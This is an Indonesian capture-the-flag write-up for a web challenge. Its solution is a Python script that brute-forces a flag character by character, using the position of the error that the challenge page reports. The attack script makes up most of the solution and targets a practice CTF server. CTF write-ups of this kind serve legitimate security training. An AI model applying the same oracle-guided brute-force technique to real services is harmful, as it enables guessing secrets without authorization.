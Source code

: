# Challenge Name: Brut3f0rc3 #1

![Category: Website](https://img.shields.io/badge/Category-Website-lightgrey.svg)
![Point: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

Pertama kali Bruteforce pada website ? Dicoba deh ini

## Attached Files

\-

## Solution

disini kita harus mengbrute force flag nya, dengan cara menggunakan file python

```python
import requests
import string
import re

def striphtml(data):
    p = re.compile(r'<.*?>')
    return p.sub('', data)

def generatePayload(index):
    lowerCase = string.ascii_lowercase
    number = string.digits
    simbol = "_"

    gabung = lowerCase + number + simbol
    arr = list(gabung)

    return arr[index]

def request(url, payload, indexError):
    regex = r"<b>(.*?)<\/b>"
    regexSuccess = r"Here is your flag : (.*)"

    r =  requests.get(url + payload)
    data = r.text
    getIndexError = re.findall(regex, data)
    getFlag = re.findall(regexSuccess, data)

    if len(getIndexError) > 0 and int(getIndexError[0]) == indexError:
        return True
    elif len(getFlag) > 0:
        return getFlag[0]
    else:
        return False

def exploit():
    url = "https://web.ctf.rasyidmf.com/chal16/?flag="
    payload = list("CTFR{" + 'a'*30 + "}")

    indexPayload = 0
    indexError = 5

    while True:
        payloadReq = ''.join(payload)
        requestPayload = request(url, payloadReq, indexError)

        if requestPayload:
            indexPayload = indexPayload + 1
            if indexPayload == 37:
                indexPayload = 0
        else:
            indexError = indexError + 1

        payload[indexError] = generatePayload(indexPayload)

        print(f"[~] Trying BruteForce : {payloadReq}", end="\r", flush=True)

        if type(requestPayload) == str:
            print(f"[+] Found Flag : {striphtml(requestPayload)}", end="\n", flush=True)
            break


if __name__ == '__main__':
    exploit()
```

## Screen Shoot

![image1](images/image1.png)

---

[Back to home](/CTFR/Web/)
